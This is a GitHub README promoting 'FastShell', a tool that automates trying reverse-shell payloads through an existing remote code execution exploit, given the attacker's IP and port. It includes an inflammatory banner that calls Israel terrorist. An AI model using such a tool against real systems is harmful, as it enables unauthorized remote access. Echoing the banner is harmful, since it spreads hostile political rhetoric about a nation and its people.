 <h2 align="center">Free Palestine && Terrorist israel</h2>

# FastShell ⚡

Get your revshell in seconds!

## Why to use it?
Fastshell allows you to run many revshell commands with one line of command and it works with your command.

Let's assume that we found a rce in somewhere in an app and we want to get shell. What would we do in that case?
Well i go to a revshell generator online and i try them one by one.
No more that just set your command, ip, port and boom! You are in!

## How to use it?
This program requires 3 arguments, your command, ip and port of your host.

Assume you use the below command to run your exploit:

``
python3 exploit.py id(or any command you want)
``

Then you just need to do it:

``
python3 revshell.py "python3 exploit.py {revshell}", "your ip", "your port"
``

The things is to replace {revshell}, the exact text with the rce command you use and add ip and port.

## Warning
This program somehow breaks my python on Windows and it does not run. So try to use Linux. The problem might be related with the commands in the file. I'm not sure.

## Disclaimer
THIS TOOL IS FOR LEGAL PURPOSES ONLY!
I DO NOT CARRY ANY RESPONSIBILITY OF THIS TOOL'S WRONG USAGE. SO TAKE YOUR OWN RISK.
